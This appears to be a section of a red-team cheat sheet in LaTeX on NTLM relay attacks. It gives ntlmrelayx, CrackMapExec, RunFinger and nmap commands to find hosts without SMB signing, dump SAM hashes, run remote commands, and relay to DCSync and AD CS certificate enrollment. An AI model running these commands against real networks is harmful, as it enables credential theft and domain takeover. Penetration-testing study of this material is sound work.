\section{NTLM Relay attack}
Other cool attacks:
\begin{itemize}
    \item \url{https://en.hackndo.com/ntlm-relay/}
    \item \href{https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay#substituting-initial-account-compromise-with-more-ntlm-relay}{Substituting Initial Account Compromise with More NTLM Relay}
    \item \url{https://github.com/CCob/lsarelayx}
    \item \url{https://github.com/mdsecactivebreach/Farmer}

\end{itemize}
\subsection{Intro}

 NTLM relay attack into three phases: 
 \begin{itemize}
     \item 
         Pre-relay: focuses on techniques that induce/coerce a client to initiate NTLM authentication for a service on a server.
         \begin{itemize}
             \item poisoning and spoofing (responder, inveigh, \href{https://github.com/RedTeamPentesting/pretender}{Pretender})
             \item coerce
         \end{itemize}

     \item
         Relay: focuses on relaying the NTLM authentication of the client to a relay target
     \item
         Post-relay: akes advantage of the authenticated session we obtained through relaying a victim's NTLM authentication. We can conduct specific post-relay attacks depending on the authenticated session's protocol.
 \end{itemize}
 
\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/ntlm/images/ntlm_relay_attack_mindmap.png}
  \caption{NTLM relay attack mindmap}
  \label{fig:ntlm_relay_attack_mindmap}
\end{figure}


\subsection{Hunting for relay targets}

{\bf RunFinger}:

\begin{verbatim}
python3 RunFinger.py -i 172.16.117.0/24
\end{verbatim}

{\bf CrackMapExec}:
\begin{verbatim}
# Signing Disabled - Host Enumeration
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
\end{verbatim}

{\bf LdapRelayScan}:

{\bf Windows PsMapExec}:

\begin{verbatim}
PsMapExec -Targets all -GenRelayList
\end{verbatim}

{\bf nmap}:
\begin{verbatim}
nmap -Pn --script=smb2-security-mode.nse -p 445 172.16.117.0/24 --open
\end{verbatim}


\subsection{Windows: ntlmrelayx}

\href{https://github.com/The-Viper-One/RedTeam-Binaries/blob/main/ntlmrelayx.exe}{NTLMrelayx.exe} in conjonction with \href{https://github.com/Arno0x/DivertTCPconn/tree/master/compiled_binaries/Binaries_x64}{DivertTCPconn} 

\begin{verbatim}
# Configure DivertTCPconn to redirect SMB traffic to port 8445
.\divertTCPConn.exe 445 8445

# Set up NTLMRelayx
# Dump SAM
.\ntlmrelayx.exe --smb-port 8445 -t [IP] or [CIDR] -smb2support

# Execute Command
.\ntlmrelayx.exe --smb-port 8445 -t [IP] or [CIDR] -smb2support -c "ipconfig"
\end{verbatim}

Once both tools have been setup trigger LLMNR poisoning to capture a NTLMv2 request and then relay to a host that does not have SMB signing required.

\subsection{Linux: ntlmrelayx}
In case of poisoning with \verb+Responder+, responder smb/http servers must be turned off in config file 

\subsubsection{Impacket ntlmrelayx}

relay and perform attacks

Support:
\begin{itemize}
    \item 
        One-Shot Attack (the original approach), 
    \item 
        Reuse Every Session (the SOCKS approach)
    \item 
        Multi-relay Attacks
\end{itemize}

\begin{verbatim}
# Signing Disabled - Host Enumeration
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
\end{verbatim}

relay do dcsync:
\begin{verbatim}
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
\end{verbatim}

relay to adcs:
\begin{verbatim}
ntlmrelayx -t http://172.16.18.15/certsrv/default.asp -smb2support \
    --template DomainController \
    --adcs
\end{verbatim}
to find the webenrollement url (to test): 
\begin{verbatim}
(Get-CASite -Name "MyCA").WebEnrollmentURI
\end{verbatim}
use \href{https://github.com/zer1t0/certi}{certi} to find the URL of the CA

\begin{verbatim}
Get-ADObject -Identity "CN=MyCA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=com" -Properties caWebEnroll | Select-Object caWebEnroll
\end{verbatim}


\subsubsection{Multirelay}
\subsubsection{Inveigh-Relay}


\section{links}
\begin{itemize}
    \item \href{https://en.hackndo.com/ntlm-relay/}{hackndo NTLM Relay}
    \item
        \href{https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire}{Responder
        with NTLM relay and Empire}
    \item
        \href{https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/}{Abusing
        Exchange: One API call away from Domain Admin }
    \item
        \href{https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/}{Combining
        NTLM Relaying and Kerberos delegation}
    \item
        \href{https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/}{A
        comprehensive guide on relaying anno 2022}
\end{itemize}
